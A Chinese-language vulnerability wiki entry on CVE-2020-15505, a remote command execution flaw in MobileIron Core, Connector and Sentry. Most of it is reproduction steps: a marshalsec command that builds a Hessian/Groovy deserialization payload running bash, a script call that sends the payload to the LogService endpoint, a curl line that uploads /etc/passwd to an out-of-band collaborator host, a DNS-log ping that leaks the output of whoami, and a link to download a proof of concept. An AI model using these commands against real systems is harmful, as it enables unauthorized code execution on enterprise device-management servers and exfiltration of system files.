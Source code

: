 （CVE-2020-15505）MobileIron 远程命令执行漏洞
=============================================

一、漏洞简介
------------

MobileIron Sentry等都是美国思可信（MobileIron）公司的产品。MobileIron
Sentry是一款智能网关产品。MobileIron
Core是一款MobileIron平台的管理控制台组件。MobileIron
Connector是一款MobileIron平台的连接器组件。 MobileIron Core
10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本中存在安全漏洞。远程攻击者可利用该漏洞执行任意代码。

二、漏洞影响
------------

MobileIron Core 10.6及之前版本、Connector 10.6及之前版本和Sentry
9.8及之前版本

三、复现过程
------------

访问`https://www.0-sec.org/mifs/.;/services/LogService`

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId24.png)

确认存在该漏洞位置连接。

在vps执行

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian Groovy "/bin/bash" "-c" "<Command>" > exp.ser

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId25.png)

然后再执行

    python hessian.py -u 'https://target.0-sec.org/mifs/.;/services/LogService' -p exp.ser

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId26.png)

**dnslog 使用姿势补充**

    curl http://xxxxx.burpcollaborator.net -F "file=@/etc/passwd;"

    ping `whoami`.xxx.dnslog.cn"

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-15505)MobileIron远程命令执行漏洞/media/rId27.png)

### poc

> https://download.0-sec.org/Web安全/MobileIron/CVE-2020-15505.zip

参考链接
--------

> https://github.com/iamnoooob/CVE-Reverse
